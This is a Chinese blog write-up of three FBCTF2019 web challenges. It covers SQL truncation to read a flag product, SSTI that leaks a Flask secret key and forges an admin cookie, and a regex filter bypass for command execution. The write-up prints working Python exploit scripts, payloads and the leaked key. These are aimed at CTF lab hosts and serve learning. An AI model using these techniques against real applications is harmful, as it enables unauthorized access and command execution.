



---
title: "FBCTF2019wp"
date: 2026-05-11T20:48:23+08:00
lastmod: 2026-05-11T20:48:23+08:00
summary: " "
url: "/posts/FBCTF2019wp/"
categories:
  - "赛题wp"
tags:
  - "FBCTF2019"
draft: true
---

# [FBCTF2019] Products Manager

## #基于约束的SQL攻击

打开环境有`/add.php`添加产品，`/view.php`查看产品

## 代码分析

先看看源码，一共有六个文件



footer.php是空的，header.php就是环境主页的代码

index.php

```php
<?php

require_once("db.php");

$products = get_top_products();

require_once("header.php");
?>

<p>
  <ul>
<?php
foreach ($products as $product) {
  echo "<li>" . htmlentities($product['name']) . "</li>";
}
?>
  </ul>
</p>

<?php require_once("footer.php");
```

先require导入了一个db.php，里面先是执行了一些连接数据库的操作

```php
/*
CREATE TABLE products (
  name char(64),
  secret char(64),
  description varchar(250)
);

INSERT INTO products VALUES('facebook', sha256(....), 'FLAG_HERE');
INSERT INTO products VALUES('messenger', sha256(....), ....);
INSERT INTO products VALUES('instagram', sha256(....), ....);
INSERT INTO products VALUES('whatsapp', sha256(....), ....);
INSERT INTO products VALUES('oculus-rift', sha256(....), ....);
*/
error_reporting(0);
require_once("config.php"); // DB config

$db = new mysqli($MYSQL_HOST, $MYSQL_USERNAME, $MYSQL_PASSWORD, $MYSQL_DBNAME);

if ($db->connect_error) {
  die("Connection failed: " . $db->connect_error);
}
```

可以看到有一个products表，并执行了五条插入语句，其中facebook中就有FLAG

随后调用了get_top_products函数

```php
function get_top_products() {
  global $db;
  $statement = $db->prepare(
    "SELECT name FROM products LIMIT 5"
  );
  check_errors($statement);
  check_errors($statement->execute());
  $res = $statement->get_result();
  check_errors($res);
  $products = [];
  while ( ($product = $res->fetch_assoc()) !== null) {
    array_push($products, $product);
  }
  $statement->close();
  return $products;
}
```

其实就是获取前五条产品的内容，而后引入了header.php，最后for循环输出这五个产品的name

然后看看add和view的处理逻辑

首先是add.php

```php
<?php

require_once("db.php");
require_once("header.php");

function validate_secret($secret) {
  if (strlen($secret) < 10) {
    return false;
  }
  $has_lowercase = false;
  $has_uppercase = false;
  $has_number = false;
  foreach (str_split($secret) as $ch) {
    if (ctype_lower($ch)) {
      $has_lowercase = true;
    } else if (ctype_upper($ch)) {
      $has_uppercase = true;
    } else if (is_numeric($ch)) {
      $has_number = true;
    }
  }
  return $has_lowercase && $has_uppercase && $has_number;
}

function handle_post() {
  global $_POST;

  $name = $_POST["name"];
  $secret = $_POST["secret"];
  $description = $_POST["description"];

  if (isset($name) && $name !== ""
        && isset($secret) && $secret !== ""
        && isset($description) && $description !== "") {
    if (validate_secret($secret) === false) {
      return "Invalid secret, please check requirements";
    }

    $product = get_product($name);
    if ($product !== null) {
      return "Product name already exists, please enter again";
    }

    insert_product($name, hash('sha256', $secret), $description);

    echo "<p>Product has been added</p>";
  }

  return null;
}

$error = handle_post();
if ($error !== null) {
  echo "<p>Error: " . $error . "</p>";
}
?>
<form action="/add.php" method="POST">
  Name of your product: <input type="text" name="name" /><br />
  Secret (10+ characters, smallcase, uppercase, number) : <input type="password" name="secret" /><br />
  Description: <input type="text" name="description" /><br />
  <input type="submit" value="Add" />
</form>

<?php require_once("footer.php");
```

validate_secret函数是对secret密钥的一些检测，get_product函数用于获取对应产品，而insert_product函数就是插入产品

然后看看view.php

```php
<?php

require_once("db.php");
require_once("header.php");

function handle_post() {
  global $_POST;

  $name = $_POST["name"];
  $secret = $_POST["secret"];

  if (isset($name) && $name !== ""
        && isset($secret) && $secret !== "") {
    if (check_name_secret($name, hash('sha256', $secret)) === false) {
      return "Incorrect name or secret, please try again";
    }

    $product = get_product($name);

    echo "<p>Product details:";
    echo "<ul><li>" . htmlentities($product['name']) . "</li>";
    echo "<li>" . htmlentities($product['description']) . "</li></ul></p>";
  }

  return null;
}

$error = handle_post();
if ($error !== null) {
  echo "<p>Error: " . $error . "</p>";
}
?>
<form action="/view.php" method="POST">
  Name: <input type="text" name="name" /><br />
  Secret: <input type="password" name="secret" /><br />
  <input type="submit" value="View" />
</form>

<?php require_once("footer.php");

```

其实也就是正常的查找返回产品内容的操作

看似是没什么漏洞的，那入手点在哪呢？

## 攻击手法

https://cs-cshi.github.io/cybersecurity/%E5%9F%BA%E4%BA%8E%E7%BA%A6%E6%9D%9F%E7%9A%84SQL%E6%94%BB%E5%87%BB/

基于约束的SQL攻击，其实只需要关注INSERT和SELECT两种语句的差异

文中是这样写的

在所有的 INSERT 查询中，SQL都会根据 varchar(n) 来限制字符串的最大长度。也就是说，如果字符串的长度大于“n”个字符的话，那么仅使用字符串的前“n”个字符。比如特定列的长度约束为“5”个字符，那么在插入字符串“vampire”时，实际上只能插入字符串的前5个字符，即“vampi”。

而select 语句对于参数后面空格的处理是删除，insert 只是截取最大长度的字符串，然后插入数据库。

攻击就是利用 select 与 insert 对长度和空格处理方式不同造成的漏洞。

在db.php中已经给出了字段的长度边界

```php
CREATE TABLE products (
  name char(64),
  secret char(64),
  description varchar(250)
);
```

name最长是64个字符

那我们尝试add添加产品，name为facebook+[最少56个空格]+若干个字符，其他的自己设置就行了

```http
name=facebook                                                        a&secret=aA11111111&description=111
```

然后view里面直接查询facebook就行了，因为select中会把空白字符去掉



# [FBCTF2019] Event

## #SSTI+session伪造

注册登录后有一个添加事件的panel，管理员面板没法看，看看cookie

```http
events_sesh_cookie=.eJwlzrkRAjEMBdBeFG9g-ZC_aIaxDg-kuxAx9E7Aq-B96L7PvB50e53vPOj-DLqRIwO9B6IKmplIQLO1PapFsqdjqzQfLC107i1b11pg1ImpPHQUBQcEaN7Ts7uPMBtz9WUSha0L1uCMojLVd0FRrswmmpUOel95_jNM3x-68C7o.agHY1w.h7zdiLvZYsJG3KWvLDrzEXCUMwY
```

拿去解密了一下session

```bash
PS E:\脚本和字典> python .\flask下session解密脚本.py '.eJwlzrkRAjEMBdBeFG9g-ZC_aIaxDg-kuxAx9E7Aq-B96L7PvB50e53vPOj-DLqRIwO9B6IKmplIQLO1PapFsqdjqzQfLC107i1b11pg1ImpPHQUBQcEaN7Ts7uPMBtz9WUSha0L1uCMojLVd0FRrswmmpUOel95_jNM3x-68C7o.agHY1w.h7zdiLvZYsJG3KWvLDrzEXCUMwY'
{'_fresh': True, '_id': 'c8ed844d8d2683bb66d89e33f52bde1cec8f963c5163d97ff6f9aaa8182787915950981d86883c4ece4cc5dbb57a4ab6d01b468a51ed09679cf08091211b69e2', 'user_id': '1'}
```

但是key没有，然后测了一下name和address，没测出来ssti

后面发现注入点在event_important，传入`event_important=__dict__`会有回显

```json
{'_sa_instance_state': <sqlalchemy.orm.state.InstanceState object at 0x7f2abca0d290>, 'address': '1', 'id': 10, 'owner_id': 1, 'name': '1', 'show': '__dict__', 'fmt': '{0.__dict__}'}
```


然后我们尝试读取key

```http
event_important=__class__.__init__.__globals__
```


```http
event_important=__class__.__init__.__globals__[app].config
```

传入后成功拿到SECRET_KEY

```tex
fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y
```

尝试伪造admin，但是好像user_id不是admin

试了两次，一个admin，一个id为1，id为1的正常显示但是admin的不行


估计这个cookie不是最终做鉴权的session，关注另一个cookie user

```html
user=IjEi.agHY1w.re4c1GokpLC_8NY89ifljvzgAgo
```

第一段解码后是1，这个看起来是一个**独立的 Flask 签名 cookie**，直接伪造后admin传入

```bash
C:\Users\23232>flask-unsign --sign --cookie "admin" --secret "fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y"
ImFkbWluIg.agHhWQ.aHeYW9jQy0soIlpugpY3PkyGt7U
```


所以这里是用了两种鉴权机制进行鉴权，events_sesh_cookie是flask原生的session，不过题目中是用的自定义的user做最终的鉴权

参考https://xz.aliyun.com/t/5399#toc-1的文章给出了一种方法

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session_serializer.dumps("admin"))

index()
```


# [FBCTF2019]RCEService

## #PCRE回溯绕过/换行绕过preg

是一个Web管理界面，可以传入json格式的命令

```http
/?cmd={"cmd":"ls"}	//index.php
```

想看看源码，发现过滤了很多字符比如`.`，`/`等，后面才知道这道题是给了源码的

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

这道题挺狠，只给了小写字母，空格，双引号和花括号，目前还没找到合适的方法

## 回溯绕过

但是可以注意导preg_match的匹配规则中第一个就是`^.* `，贪婪匹配，想到p牛之前的PCRE绕过的文章，我自己也学过：https://wanth3f1ag.top/posts/PHP%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%8A%80%E5%B7%A7/#%E5%85%B3%E4%BA%8Epreg_match%E7%BB%95%E8%BF%87

并且这里需要注意一行代码`putenv('PATH=/home/rceservice/jail');`相当于设置了一个沙箱环境，只有在这个目录下的命令才能执行，因为这些命令实际上是存放在特定目录中封装好的程序，PATH环境变量就是存放这些特定目录的路径方便我们去直接调用这些命令，所以可以用绝对路径去绕过 PATH 限制

注：Linux命令的位置：/bin和/usr/bin，默认都是全体用户使用，/sbin和/usr/sbin,默认root用户使用

给出exp

```python
import requests

url = "http://3af1aa82-2664-40dc-9d4e-ee20cfe1e1d3.node5.buuoj.cn:81/"

payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'

res = requests.post(url, data={"cmd": payload})
print(res.text)
```

注意，由于源码中是`$_REQUEST`，并且因为数据特别大，get传会导致接受内容过大导致过载，所以这里的话是需要post传的

不知道flag在哪的可以用find去找flag

```python
import requests

url = "http://3af1aa82-2664-40dc-9d4e-ee20cfe1e1d3.node5.buuoj.cn:81/"

payload = '{"cmd":"/usr/bin/find / -name flag* 2>/dev/null","test":"' + "a"*(1000000) + '"}'

res = requests.post(url, data={"cmd": payload})
print(res.url)
print(res.text)
```



第二个方法就是换行绕过preg

## 换行绕过

再看看正则匹配

```php
preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)
```

开头和结尾都有一个`.*`，但是`.`默认不会匹配换行符`\n`，

而且换行符 `\n` 处于 JSON 对象的花括号与键名之间，属于**合法空白字符**，`json_decode` 能正确解析。

```http
/?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A} 
本质上是
{
	"cmd":"/bin/cat /home/rceservice/flag"
}
```

可能有些人会问，哎？为什么这里开头结尾都要一个换行符呢？其实是这样的

放个官方图


**从正则匹配的流程上说，首先是`^.*`开头的贪婪匹配，由于匹配不到换行符，所以`^.*`最终只匹配到了`{`，而中间的`(pattern)`关键字匹配是能匹配到换行符的，也就是在`\x00-\x1F`中，所以这段pattern匹配到换行符了；接下来关键的来了，末尾的`.*`也是贪婪匹配，所以从换行符后面到第二个换行符之间的符号他都能匹配掉，所以他匹配到了两个换行符之间的所有字符，而`$`元字符必须匹配到行尾，但此时并不是行尾而是一个换行符，所以最终preg_match匹配是失败的，返回0**

基于上面的解释，对于其他师傅的wp里的poc也就不难理解了

